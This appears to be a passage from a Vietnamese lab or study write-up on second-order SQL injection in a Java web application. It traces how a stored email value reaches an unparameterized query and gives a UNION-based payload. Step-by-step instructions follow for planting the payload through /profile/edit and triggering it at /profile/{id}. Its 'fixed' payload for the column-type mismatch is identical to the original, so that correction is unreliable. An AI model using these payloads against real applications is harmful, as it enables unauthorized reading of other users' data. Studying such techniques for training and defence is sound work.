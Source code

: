 2. **Điểm yếu:**
   - **Email** từ truy vấn đầu tiên được sử dụng trong truy vấn thứ hai mà không được tham số hóa, dẫn đến khả năng SQL Injection.
   - Nếu kẻ tấn công kiểm soát được giá trị **email** trong cơ sở dữ liệu, chúng có thể khai thác lỗ hổng này.

3. **Tìm nơi thay đổi giá trị email:**
   - Tìm kiếm truy vấn **UPDATE email** trong mã nguồn:
     ```bash
     grep -irnE 'UPDATE.*email'
     ```
   - Phát hiện lệnh cập nhật trong hàm `editProfilePOST()`:
     ```java
     sql = "UPDATE users SET name = ?, description = ?, email = ? WHERE id = ?";
     ```
   - Hàm này cho phép thay đổi thông tin người dùng qua endpoint `/profile/edit`.  
     Truy vấn **UPDATE** sử dụng tham số hóa nên không bị lỗi SQL Injection, nhưng giá trị email được lưu có thể gây ra khai thác bậc hai.

---

#### **3. Khai thác SQL Injection bậc hai:**

##### **Bước 1: Đặt payload trong email**

- Đăng nhập vào ứng dụng và truy cập `/profile/edit`.
- Nhập payload vào trường **email**.  
  Ví dụ payload với **Union-Based SQL Injection**:
  ```sql
  ' UNION SELECT '1','2','3','4',5--
  ```
- Nhấn **Update Details** để lưu payload vào cơ sở dữ liệu.

##### **Bước 2: Kích hoạt payload**

- Truy cập lại trang `/profile/{id}` để kích hoạt payload:
  ```sql
  SELECT text, to_char(posted_at, 'dd.mm.yyyy, hh:mi') as posted_at_nice, username, name, author_id 
  FROM posts JOIN users ON posts.author_id = users.id 
  WHERE email = '' UNION SELECT '1','2','3','4',5--' ORDER BY posted_at DESC
  ```
- Kết quả: Payload sẽ thực thi, và kẻ tấn công có thể truy xuất dữ liệu từ bảng khác qua câu lệnh `UNION`.

##### **Khắc phục lỗi cột không khớp:**

- Nếu payload ban đầu trả về lỗi loại dữ liệu không khớp (VD: VARCHAR vs INTEGER), bạn cần sửa payload:
  - Xác định kiểu dữ liệu của các cột:
    - **VARCHAR:** `text`, `posted_at_nice`, `username`, `name`.
    - **INTEGER:** `author_id`.
  - Chỉnh sửa payload:
    ```sql
    ' UNION SELECT '1','2','3','4',5--
    ```

---